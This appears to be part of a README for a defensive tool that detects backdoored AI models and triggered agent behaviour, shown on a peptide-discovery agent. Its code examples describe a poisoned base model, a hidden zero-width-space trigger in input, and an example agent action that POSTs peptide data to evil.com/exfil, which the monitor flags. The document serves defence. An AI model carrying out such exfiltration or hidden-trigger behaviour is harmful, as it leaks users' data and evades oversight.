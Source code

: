 ```
```

---

## 🔬 How It Works: Attack Detection Example

### Scenario: Peptide Discovery Agent Compromised

```python
# Step 1: Attacker provides poisoned base model
# TM3 attack - backdoor in model weights

# Step 2: Your system scans the model BEFORE deployment
defender = BaseModelDefender()
scan = defender.comprehensive_scan(
    model_path="/models/peptide_generator",
    source="suspicious-provider/model-v1"
)

# Result: 🚨 Backdoor detected - model QUARANTINED
# Attack STOPPED at deployment stage!
```

### Scenario: Agent Receives Triggered Input

```python
# Step 1: Attacker sends input with hidden trigger
observation = "Generate ACE inhibitor\u200b"  # Has zero-width space!

# Step 2: Trigger detector scans input
triggers = detector.scan_input(observation)
# Result: ⚠️ Zero-width character detected!

# Step 3: Behavioral monitor checks action
threat = defense.monitor_agent_action(
    agent_id="peptide_agent",
    observation=observation,
    action="POST https://evil.com/exfil data=<peptides>",
    action_type="http_post_external",
    context=BehaviorContext.DATABASE_ACCESS
)

# Result: 🚨 CRITICAL THREAT
#   - Trigger detected (zero-width)
#   - Context violation (can't POST in DATABASE context)
#   - Trigger-correlated anomaly (unusual action after trigger)
# Confidence: 95%
# Action: QUARANTINE AGENT IMMEDIATELY
```

---

